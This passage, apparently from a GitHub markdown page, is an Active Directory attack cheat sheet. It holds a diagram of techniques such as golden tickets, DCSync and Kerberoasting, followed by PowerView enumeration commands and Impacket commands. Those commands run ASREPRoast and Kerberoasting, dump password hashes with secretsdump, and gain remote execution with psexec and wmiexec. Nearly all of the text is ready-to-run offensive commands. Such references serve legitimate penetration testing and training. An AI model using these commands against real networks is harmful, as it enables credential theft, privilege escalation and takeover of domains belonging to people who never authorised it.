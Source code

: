 ```
│  ┌─────────────────┐     ┌─────────────────┐   ┌─────────────────┐│
│  │ • Golden ticket │ ◄───│ • DCSync        │◄──│ • Kerberoasting ││
│  │ • Silver ticket │     │ • AdminSDHolder │   │ • ASREPRoast    ││
│  │ • Skeleton key  │     │ • DCShadow      │   │ • Unconstrained ││
│  │ • Backdoor user │     │ • NTDS.dit      │   │   delegation    ││
│  └─────────────────┘     └─────────────────┘   └─────────────────┘│
│                                                                 │
└─────────────────────────────────────────────────────────────────┘
```

### Key AD Attack Techniques

```powershell
# PowerView Commands
Import-Module PowerView

# Domain enumeration
Get-Domain
Get-DomainController
Get-DomainUser
Get-DomainGroup
Get-DomainComputer

# Trust relationships
Get-DomainTrust
Get-ForestTrust

# ACL analysis
Get-ObjectAcl -Identity "Domain Admins"
Find-InterestingDomainAcl

# Kerberoasting
Get-DomainUser -SPN
Request-SPNTicket -SPN "service/host"

# ASREPRoast
Get-DomainUser -PreauthNotRequired
```

### Impacket Framework

```bash
# GetNPUsers - ASREPRoast
python3 GetNPUsers.py domain.com/ -usersfile users.txt -no-pass -dc-ip 10.0.0.1

# GetUserSPNs - Kerberoasting  
python3 GetUserSPNs.py domain.com/user:password -dc-ip 10.0.0.1 -request

# SecretsDump - Extract hashes
python3 secretsdump.py domain.com/user:password@10.0.0.1

# PSExec - Remote execution
python3 psexec.py domain.com/user:password@10.0.0.1

# WMIExec - WMI execution
python3 wmiexec.py domain.com/user:password@10.0.0.1
```
